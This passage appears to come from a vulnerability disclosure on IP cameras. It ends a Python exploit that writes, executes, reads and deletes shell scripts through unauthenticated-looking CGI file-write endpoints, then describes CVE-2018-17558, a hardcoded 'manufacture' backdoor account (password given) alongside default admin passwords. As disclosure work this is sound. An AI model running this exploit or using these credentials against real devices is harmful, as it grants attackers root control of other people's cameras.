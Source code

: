 ```
def prepareShell(target, refID, cmd):
    writeCmd(target, refID, "#!/bin/sh\n%s 1>/tmp/%i.log 2>&1" % (cmd, refID))
def writeCmd(target, refID, cmd):
    percentCmd = urllib.parse.quote(cmd)
    print(huepy.yellow("[~] writing /opt/cgi/admin/%i.sh" % (refID)))
    r = requests.get("%s/cgi-bin/admin/filewrite?SAVE.filePath=/opt/cgi/admin/%i.sh&SAVE.fileData=%s" % (target, refID, percentCmd), verify=False)
def execCmd(target, refID):
    print(huepy.yellow("[~] Executing reference number %i..." % (refID)))
    r = requests.get("%s/cgi-bin/admin/%i.sh" % (target, refID), verify=False)
def readCmd(target, refID):
    r = requests.get("%s/cgi-bin/admin/fileread?READ.filePath=/tmp/%i.log" % (target, refID), verify=False)
    print(huepy.green("[+] Command returned on %i:\n" % (refID)) +  r.text)
def mrproper(target, refID):
    print(huepy.green("[+] mrproper-ing your waste..."))
    writeCmd(target, refID, "#!/bin/sh\nrm /tmp/%i.log /opt/cgi/admin/%i.sh" % (refID, refID))
    execCmd(target, refID)
if __name__ == '__main__':
    main()

```

Note that, as the OS injection itself is blind, log output of your command(s) needs to be written into a log file and read again after the command finishes. This means that if your command runs for an hour, you’ll only be able to get the output after an hour.

#### Evaluation[⌗](#evaluation)

CVSS v2: [AV:N/AC:L/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:L/Au:S/C:C/I:C/A:C)) = Base Score **9.0**

### CVE-2018-17558[⌗](#cve-2018-17558)

Hardcoded administrator account with code execution as root

#### Description[⌗](#description-1)

The web server is protected against unauthorized access by a user name and password, which can be changed by the person who purchased the camera. This is `admin:12345` or `admin:admin` by default, dependent on software and model. This is dangerous in itself, since an attacker can exploit the fact that the owner of the camera usually does not change this password.

Regardless of the initial values for the admin user account, the web server is also configured to accept the user name `manufacture` with the password `erutcafunam` for the `/cgi-bin/mft` directory in the web server’s root directory. These values cannot be deleted by the owner of the camera, nor can they be changed. This means that all cameras running with the affected software versions can be accessed using this user name and password.

There are several endpoints in the `/cgi-bin/mft` directory. These endpoints are responsible for changing the WiFi settings of the device. These can be attacked at various points through an OS injection to execute code with root privileges:

